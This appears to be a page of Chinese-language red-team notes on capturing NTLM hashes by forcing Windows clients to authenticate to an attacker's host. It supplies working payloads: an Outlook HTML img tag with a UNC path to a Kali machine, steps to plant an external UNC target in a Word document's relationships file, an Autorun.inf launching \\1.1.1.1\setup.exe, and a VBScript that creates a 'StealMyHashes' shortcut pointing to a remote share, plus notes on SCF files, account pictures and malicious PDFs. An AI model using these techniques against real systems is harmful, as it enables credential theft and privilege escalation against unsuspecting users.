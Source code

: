 当用户浏览共享时，将自动从他的系统建立到 SCF 文件中包含的 UNC 路径的连接。Windows 将尝试使用用户名和密码对共享进行身份验证。在该身份验证过程中，服务器会向客户端发送一个随机的 8 字节质询密钥，并使用此质询密钥再次加密散列的 NTLM / LANMAN 密码。我们将捕获 NTLMv2 哈希。

**头像**

适用于 Windows 10/2016/2019

在更改账户图片处，用普通用户的权限指定一个 webadv 地址的图片，如果普通用户验证图片通过，那么 SYSTEM 用户 (域内是机器用户) 也去访问指定的主机，并且携带凭据，我们就可以拿到机器用户的 net-ntlm hash，这个可以用来提权。

**outlook**

发送邮件支持 html，outlook 里面的图片加载路径支持 UNC,构造 payload

```
<img src="\\<kali ip>\outlook">
<img src="http://test/">
```

这里支持两种协议,区别如下
- UNC 默认携带凭据, 但是如果 IP 是公网 IP 的话, 很多公司是访问不到公网 445 的
- HTTP 协议默认不携带凭据, 只有信任域 (域内 DNS 记录) 才会携带凭据. 域内的成员默认有增加 DNS 的权限, 可以用域内成员的权限在内网增加一条 DNS 记录.

**pdf**
- [deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)
  - [NTLM Credentials Theft via PDF Files](https://research.checkpoint.com/2018/ntlm-credentials-theft-via-pdf-files/)

**office**

新建一个 word，添加一张图片

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/15.png)

然后用 7zip 打开，进入 `word\_rels`，修改 `document.xml.rels`

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/16.png)

Target 参数修改为 UNC 路径，然后加上 `TargetMode="External"`

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/17.png)

打开 word 时,触发 NTLM 请求

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/18.png)

**Autorun.inf**
```
[autorun]
open=\\1.1.1.1\setup.exe
icon=something.ico
action=open Setup.exe
```

**Shortcut Files (.lnk)**

我们可以创建一个包含网络路径的快捷方式，只要你打开快捷方式，Windows就会尝试解析网络路径，你还可以指定一个快捷键来触发这个快捷方式。至于图标，你可以给出一个Windows二进制文件的名称，或者从位于system32目录中的shell32.dll，Ieframe.dll，imageres.dll，pnidui.dll或wmploc.dll中选择一个图标。
```
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\1.1.1.1\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
```